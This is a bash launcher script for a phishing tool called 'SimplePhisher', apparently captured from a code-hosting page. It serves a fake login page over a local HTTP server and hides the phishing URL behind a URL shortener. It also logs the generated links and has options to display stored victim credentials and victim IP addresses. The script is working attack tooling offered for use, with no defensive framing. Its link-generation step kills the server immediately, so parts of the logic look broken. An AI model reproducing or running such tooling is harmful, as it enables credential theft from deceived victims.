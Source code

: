#!/bin/bash

# Define the root directory for the phishing tool
if [[ $(uname -o) == *'Android'* ]]; then
        SIMPLEPHISHER_ROOT="/data/data/com.termux/files/usr/opt/simplephisher"
else
        export SIMPLEPHISHER_ROOT="/opt/simplephisher"
fi

# Function to display the help menu
show_help() {
        echo "To run SimplePhisher type \`simplephisher\` in your cmd"
        echo
        echo "Help:"
        echo " -h | help : Print this menu & Exit"
        echo " -c | auth : View Saved Credentials"
        echo " -i | ip   : View Saved Victim IP"
        echo " -g | generate : Generate a phishing link"
        echo " -p | port  : Specify a custom port for the HTTP server (default: 8080)"
        echo " -f | file  : Specify a custom phishing page (default: phishing_page.html)"
        echo
}

# Function to generate a phishing link
generate_phishing_link() {
        # Default values
        PORT=${PORT:-8080}
        PHISHING_PAGE=${PHISHING_PAGE:-"$SIMPLEPHISHER_ROOT/phishing_page.html"}

        # Start an HTTP server to serve the phishing page
        python3 -m http.server $PORT &
        SERVER_PID=$!

        # Get the local IP address
        LOCAL_IP=$(hostname -I | awk '{print $1}')

        # Construct the phishing URL
        PHISHING_URL="http://$LOCAL_IP:$PORT"

        # Use a URL shortening service to shorten the phishing URL
        SHORTENED_URL=$(curl -s "https://is.gd/create.php?format=simple&url=$PHISHING_URL")

        # Stop the HTTP server
        kill $SERVER_PID

        # Log the generated link
        echo "$(date): Phishing link generated: $SHORTENED_URL" >> $SIMPLEPHISHER_ROOT/logs/phishing_links.log

        echo "Phishing link generated: $SHORTENED_URL"
}

# Check the command-line arguments
while [[ $# -gt 0 ]]; do
        case $1 in
                -h|help)
                        show_help
                        exit 0
                        ;;
                -c|auth)
                        cat $SIMPLEPHISHER_ROOT/auth/usernames.dat 2> /dev/null || {
                                echo "No Credentials Found!"
                                exit 1
                        }
                        ;;
                -i|ip)
                        cat $SIMPLEPHISHER_ROOT/auth/ip.txt 2> /dev/null || {
                                echo "No Saved IP Found!"
                                exit 1
                        }
                        ;;
                -g|generate)
                        generate_phishing_link
                        ;;
                -p|port)
                        PORT=$2
                        shift
                        ;;
                -f|file)
                        PHISHING_PAGE=$2
                        shift
                        ;;
                *)
                        echo "Unknown option: $1"
                        show_help
                        exit 1
                        ;;
        esac
        shift
done

# Change to the phishing tool directory and run the main script
cd $SIMPLEPHISHER_ROOT
bash ./simplephisher.sh
